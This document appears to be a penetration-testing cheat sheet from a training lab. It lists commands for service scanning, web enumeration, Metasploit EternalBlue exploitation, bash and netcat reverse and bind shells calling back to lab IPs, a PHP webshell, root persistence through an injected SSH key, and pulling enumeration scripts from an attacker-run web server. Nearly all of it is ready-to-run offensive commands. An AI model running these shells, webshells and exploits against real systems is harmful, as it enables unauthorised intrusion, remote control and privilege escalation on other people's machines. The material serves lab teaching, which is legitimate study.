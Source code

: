 # Pentesting

---

## Service Scanning

Run nmap on an IP
`nmap 10.129.42.253`

Run an nmap script scan on an IP
`nmap -sV -sC -p- 10.129.42.253`

List various available nmap scripts
`locate scripts/citrix`

Run an nmap script on an IP
`nmap --script smb-os-discovery.nse -p445 10.10.10.40`

Grab banner of an open port
`netcat 10.10.10.10 22`

List SMB Shares
`smbclient -N -L \\\\10.129.42.253`

Connect to an SMB share
`smbclient \\\\10.129.42.253\\users`

Scan SNMP on an IP
`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`

Brute force SNMP secret string
`onesixtyone -c dict.txt 10.129.42.254`

---

## Web Enumeration

Run a directory scan on a website
`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`

Run a sub-domain scan on a website
`gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`

Grab website banner
`curl -IL https://www.inlanefreight.com`

List details about the webserver/certificates
`whatweb 10.10.10.121`

List potential directories in robots.txt
`curl 10.10.10.121/robots.txt`

View page source (in Firefox)
`ctrl+U`

---

## Public Exploits

Search for public exploits for a web application
`searchsploit openssh 7.2`

MSF: Start the Metasploit Framework
`msfconsole`

MSF: Search for public exploits in MSF
`search exploit eternalblue`

MSF: Start using an MSF module
`use exploit/windows/smb/ms17_010_psexec`

MSF: Show required options for an MSF module
`show options`

MSF: Set a value for an MSF module option
`set RHOSTS 10.10.10.40`

MSF: Test if the target server is vulnerable
`check`

MSF: Run the exploit on the target server is vulnerable
`exploit`

---

## Using Shells

Start a nc listener on a local port
`nc -lvnp 1234`

Send a reverse shell from the remote server
`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`

Another command to send a reverse shell from the remote server
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`

Start a bind shell on the remote server
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`

Connect to a bind shell started on the remote server
`nc 10.10.10.1 1234`

Upgrade shell TTY (1)
`python -c 'import pty; pty.spawn("/bin/bash")'`

Upgrade shell TTY (2)
`ctrl+z then stty raw -echo then fg then enter twice`

Create a webshell php file
`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`

Execute a command on an uploaded webshell
`curl http://SERVER_IP:PORT/shell.php?cmd=id`

---

## Privilege Escalation

Run linpeas script to enumerate remote server
`./linpeas.sh`

List available sudo privileges
`sudo -l`

Run a command with sudo
`sudo -u user /bin/echo Hello World!`

Switch to root user (if we have access to sudo su)
`sudo su -`

Switch to a user (if we have access to sudo su)
`sudo su user -`

Create a new SSH key
`ssh-keygen -f key`

Add the generated public key to the user
`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`

SSH to the server with the generated private key
`ssh root@10.10.10.10 -i key`

---

## Transferring Files

Start a local webserver
`python3 -m http.server 8000`

Download a file on the remote server from our local machine
`wget http://10.10.14.1:8000/linpeas.sh`

Download a file on the remote server from our local machine
`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`

Transfer a file to the remote server with scp (requires SSH access)
`scp linenum.sh user@remotehost:/tmp/linenum.sh`

Convert a file to base64
`base64 shell -w 0`

Convert a file from base64 back to its orig
`echo f0VMR...SNIO...InmDwU | base64 -d > shell`

Check the file's md5sum to ensure it converted correctly
`md5sum shell`

---